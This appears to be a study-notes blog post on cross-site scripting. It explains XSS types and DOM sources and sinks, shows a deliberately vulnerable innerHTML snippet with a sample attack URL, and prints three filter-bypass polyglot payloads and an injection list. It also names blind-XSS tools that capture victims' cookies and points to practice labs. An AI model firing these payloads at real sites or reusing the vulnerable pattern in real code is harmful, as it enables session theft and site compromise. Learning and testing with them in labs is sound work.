 ```yaml
---
layout:     post
title:      XSS 
subtitle:   
date:       2020-01-09
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XSS
---
```


## XSS
Crose-site Scripting(XSS).
[XSS Introduce](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
#### Reflective XSS
#### Stored XSS
example1:
[Myspace Worm - Stored XSS](https://samy.pl/popular/tech.html)

example2:
[Tweetdeck Worm - Stored XSS](https://threatpost.com/tweetdeck-taken-down-in-wake-of-xss-attacks/106597)

#### DOM XSS
##### DOM XSS - What to Look For?

|Sources|Sinks|
|-|-|
|document.url|element.innerHTML()|
|document.referrer|element.outerHTML()|
|location|eval()|
|location.href|setTimeout()|
|location.search|setInterval()|
|location.hash|document.write()|
|location.pathname|document.writeIn()|

##### DOM XSS -What does it look like?

```
<!DOCTYPE html>
<html>
	<body>
		<script>
			var source = "Hello " + decodeURIComponent(location.hash.split("#")[1]); //Source
			var divElement = document.createElement("div");
			divElement.innerHTML = source; //Sink
			document.body.appendChild(divElement);
		</script>
	</body>
</html>
```

```
GET www.vulnerable-website.example#<img src="test" onerror="alert('XSS')">
```

##### XSS Polyglot #1(RSnake)
```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,
83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromChar
Code(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(
88,83,83))</SCRIPT>
```
Multi-context, filter bypass based polyglot payload #1 (OWASP [XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet))

##### XSS Polyglot #2 (0xsobky)
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert()
)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/
--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
<https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot>

##### XSS Polyglot #3 (Ashar Javed)
```
'">><marquee><img src=x
onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouse
over=prompt(1)><script>prompt(1)</script>@gmail.com<isindex
formaction=javascript:alert(/XSS/)
type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&
lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img
src="http://i.imgur.com/P8mL8.jpg">
```
Multi-context, filter bypass based polyglot payload #2 (Ashar Javed [XSS Research](http://slides.com/mscasharjaved/cross-site-scripting-my-love#/))

#### Blind XSS
Blind XSS frameworks(on github)
- sleepy-puppy (python)
- xsshunter (python)
- ground-control (ruby)(small)

#### Flash-based XSS
#### Self XSS

## Best Practices
- start slow
- Don't get discouraged!
- Keep a list of common payloads
- Use Burp Intruder

**Injections list**
```
"
">
"><>
"><script>
"></script>
"><script>alert(1)</script>
"><script>confirm(1)</script>
...
```

## Tools
##### Tooling
* Blind 
    * XSSTrike
    * XSS Hunter
    * Sleepy Puppy
    * KnoXSS


[XSSTrike](https://github.com/s0md3v/XSStrike)

##### XSSHunter (Blind)
Payload:
* The vulnerable page's URI
* Origin of Execution
* The Victim's IP Address
* The Page Referer
* The Victim's User Agent
* All Non-HTTP-Only Cookies
* The Page's Full HTML DOM
* Full Screenshot of the Affected Page
* Responsible HTTP Request(If an XSS Hunter compatible tool is used)

## Labs

[bWapp](http://www.itsecgames.com/)

bWapp Section - A3 - Cross-Site Scripting (XSS)

```javascript
Cross-Site Scripting - Reflected (GET)
Cross-Site Scripting - Reflected (POST)
Cross-Site Scripting - Reflected (JSON)
Cross-Site Scripting - Reflected (AJAX/JSON)
Cross-Site Scripting - Reflected (AJAX/XML)
Cross-Site Scripting - Reflected (Back Button)
Cross-Site Scripting - Reflected (Custom Header)
Cross-Site Scripting - Reflected (Eval)
Cross-Site Scripting - Reflected (HREF)
Cross-Site Scripting - Reflected (Login Form)
Cross-Site Scripting - Reflected (phpMyAdmin)
Cross-Site Scripting - Reflected (PHP_SELF)
Cross-Site Scripting - Reflected (Referer)
Cross-Site Scripting - Reflected (User-Agent)
Cross-Site Scripting - Stored (Blog)
Cross-Site Scripting - Stored (Change Secret)
Cross-Site Scripting - Stored (Cookies)
Cross-Site Scripting - Stored (SQLiteManager)
Cross-Site Scripting - Stored (User-Agent)
```

Additional Labs
[PentesterLab](https://pentesterlab.com/exercises?dir=desc&only=free&sort=published_at)
Pentesterlab
* XSS and MYSQL FILE
* Web for Pentester
* Web for Pentester II
